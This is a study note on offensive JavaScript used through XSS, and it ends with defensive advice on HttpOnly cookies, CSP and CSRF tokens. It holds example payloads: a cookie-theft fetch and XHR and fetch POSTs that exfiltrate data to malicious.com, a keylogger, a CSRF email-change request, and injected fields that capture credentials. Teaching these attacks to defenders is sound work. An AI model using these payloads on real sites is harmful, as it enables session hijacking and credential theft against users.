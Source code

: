 ### 📚 **Offensive JavaScript Notes**

---

### 🚀 **High-Level Summary**

**Offensive JavaScript** techniques leverage the **power of JavaScript** for **malicious activities** beyond simple pop-ups like `alert(1)`. These attacks include **stealing sensitive data**, **manipulating the DOM**, and **exfiltrating data** to external servers. Attackers often exploit **XSS vulnerabilities** to access **local storage**, **cookies**, and **perform unauthorized actions** on behalf of the victim.

---

### 📦 **Definition Bank**

|**Term**|**Definition**|
|---|---|
|**localStorage**|A **persistent** browser storage mechanism that retains data even after the browser is closed.|
|**sessionStorage**|A **temporary** storage mechanism that clears data when the tab is closed.|
|**document.cookie**|A property that stores **HTTP cookies** associated with the current page.|
|**XMLHttpRequest (XHR)**|A **legacy JavaScript API** for sending HTTP requests.|
|**Fetch API**|A **modern, promise-based** API for making HTTP requests and handling responses in JavaScript.|
|**Keylogging**|A technique where keystrokes are **captured** and potentially exfiltrated by malicious actors.|
|**CSRF (Cross-Site Request Forgery)**|An attack that **tricks users** into making unauthorized requests to a website where they are authenticated.|

---

### 📡 **Key Concepts and Explanations**

1. **Accessing Local & Session Storage**
    
    - Attackers can access **stored data** directly in the browser.
    - Example of extracting stored data:
    
    ```javascript
    let localStorageData = JSON.stringify(localStorage);
    let sessionStorageData = JSON.stringify(sessionStorage);
    ```
    
    ✅ **Explanation:** The data stored in `localStorage` persists after the browser closes, while `sessionStorage` clears after the session ends.

---

2. **Stealing Cookies**
    
    - Cookies can store **sensitive data** like **session tokens**.
    - Example payload for cookie theft:
    
    ```javascript
    fetch("http://malicious.com?cookie=" + document.cookie);
    ```
    
    ✅ **Explanation:** This code sends the user's cookies to a remote server via an HTTP request, enabling **session hijacking**.

---

3. **Building HTTP Requests (Data Exfiltration)**
    
    - **Legacy Approach:** Using `XMLHttpRequest`:
    
    ```javascript
    let xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://malicious.com');
    xhr.send('data=stolen');
    ```
    
    - **Modern Approach:** Using the `Fetch API`:
    
    ```javascript
    fetch('http://malicious.com', {
        method: 'POST',
        body: JSON.stringify({ data: 'stolen' })
    });
    ```
    
    ✅ **Explanation:** `Fetch` is cleaner and commonly used for **data exfiltration** due to its simplicity and asynchronous handling.

---

4. **Keylogging (Capturing Keystrokes)**
    
    - Capturing **every keystroke** made by the victim:
    
    ```javascript
    document.onkeypress = function(e) {
        let key = String.fromCharCode(e.keyCode);
        console.log("Key Pressed:", key);
    }
    ```
    
    ✅ **Explanation:** This code logs each keystroke, making it possible to capture **passwords** or **sensitive data** typed by the user.

---

5. **Session Riding (CSRF)**
    
    - Exploiting a logged-in user by **automatically submitting a form** on their behalf:
    
    ```javascript
    let xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://victim.com/updateprofile');
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send('email=attacker@evil.com');
    ```
    
    ✅ **Explanation:** The attacker **forges a request** using the victim's session, manipulating their account data without consent.

---

6. **Saved Credentials Capture**
    
    - Creating fake input fields to capture **user credentials**:
    
    ```javascript
    let usernameField = document.createElement('input');
    usernameField.type = 'text';
    usernameField.name = 'username';
    document.body.appendChild(usernameField);
    
    let passwordField = document.createElement('input');
    passwordField.type = 'password';
    passwordField.name = 'password';
    document.body.appendChild(passwordField);
    
    setTimeout(function() {
        console.log("Captured Username:", document.getElementsByName('username')[0].value);
        console.log("Captured Password:", document.getElementsByName('password')[0].value);
    }, 1000);
    ```
    
    ✅ **Explanation:** The script injects fields and logs **input data**, potentially capturing **saved credentials** in the browser.

---

### 🔑 **Comparisons and Alternatives**

|**Approach**|**Secure?**|**Explanation**|
|---|---|---|
|**localStorage for sensitive data**|❌|Easily accessible by JavaScript, making it vulnerable to XSS attacks.|
|**HttpOnly Cookies**|✅|Prevents JavaScript access to cookies, mitigating most XSS risks.|
|**CSP (Content Security Policy)**|✅|Restricts which scripts can execute on a page, reducing XSS impact.|
|**CSRF Tokens**|✅|Tokens prevent unauthorized requests by requiring a **unique, per-request token.**|

---

### 🛡️ **Best Practices for Defense Against Offensive JS Techniques**

- **Use `HttpOnly` Cookies:** Prevent direct JavaScript access to sensitive cookies.
- **Enable CSP (Content Security Policy):** Restrict inline JavaScript execution.
- **Validate and Escape Inputs:** Use proper escaping for **attribute contexts** and inputs.
- **Limit Local Storage Usage:** Avoid storing **sensitive data** like tokens in local storage.
- **Implement CSRF Tokens:** Generate and validate **unique tokens** for each form submission.

---

### ✅ **Code Example: Secure Fetch Usage**

```javascript
fetch('https://secure-website.com/api/data', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'CSRF-Token': 'uniqueToken12345'
    },
    body: JSON.stringify({ data: 'safeData' })
});
```

✅ **Explanation:**

- **Token-based validation** prevents CSRF attacks.
- **Proper headers** ensure the request is authenticated securely.
- **Data sanitization** and escaping reduce injection risks.

---